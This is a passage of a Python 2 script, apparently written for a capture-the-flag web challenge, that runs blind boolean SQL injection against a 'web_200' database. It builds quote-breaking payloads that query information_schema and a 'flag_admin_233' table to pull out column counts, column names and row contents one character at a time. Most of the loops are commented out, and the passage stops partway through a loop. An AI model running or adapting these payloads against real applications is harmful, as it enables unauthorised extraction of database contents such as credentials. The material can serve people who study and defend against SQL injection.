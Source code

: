 ```
	# 	payload = "nishigeshenmegui' or ((SELECT COUNT(*) from information_schema.COLUMNS where TABLE_SCHEMA = 'web_200' && TABLE_NAME = 'flag_admin_233' limit 0,1)>" + str(i) + ")#"

	# 	if test(payload):
	# 		conlum_number = i
	# 	 	break

	# conlum_number = 3
	# print "conlum_number:" + str(conlum_number)

	# for i in range(2,conlum_number):
	# 	for j in xrange(50):
	# 		if i == 2:
	# 			conlum_length = 4
	# 			break

	# 		payload = "nishigeshenmegui' or ((SELECT length(COLUMN_NAME) from information_schema.COLUMNS where TABLE_SCHEMA = 'web_200'  limit " + str(i) + ",1)>" + str(j) + ")#"

	# 		if test(payload):
	# 			conlum_length = j
	# 		 	break

	# 	print "[*]conlum_length: "+ str(conlum_length)


	# 	column = ""
	# 	for j in range(conlum_length):

	# 		for k in range(90,130):
	# 			payload = "nishigeshenmegui' or ((select ascii(mid((SELECT COLUMN_NAME from information_schema.COLUMNS where TABLE_SCHEMA = 'web_200'  limit " + str(i) + ",1),"+ str(j + 1) +",1)))>" + str(k) + ")#"

	# 			if test(payload):
	# 				column += chr(k)
	# 				print column
	# 			 	break

	# 	print "[*]column:" + column

	# for i in xrange(30):
	# 	payload = "nishigeshenmegui' or ((SELECT COUNT(*) from flag_admin_233 limit 0,1)>" + str(i) + ")#"

	# 	if test(payload):
	# 		content_number = i
	# 	 	break

	# print "content_number:" + str(content_number)

	content_number = 1

	number =  [48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 97, 98, 99, 100, 101, 102, 103, 104, 105, 106, 107, 108, 109, 110, 111, 112, 113, 114, 115, 116, 117, 118, 119, 120, 121, 122]

	for i in range(0,content_number):
		# for j in xrange(50):

		# 	payload = "nishigeshenmegui' or ((SELECT length(pass) from flag_admin_233 limit " + str(i) + ",1)>" + str(j) + ")#"

		# 	if test(payload):
```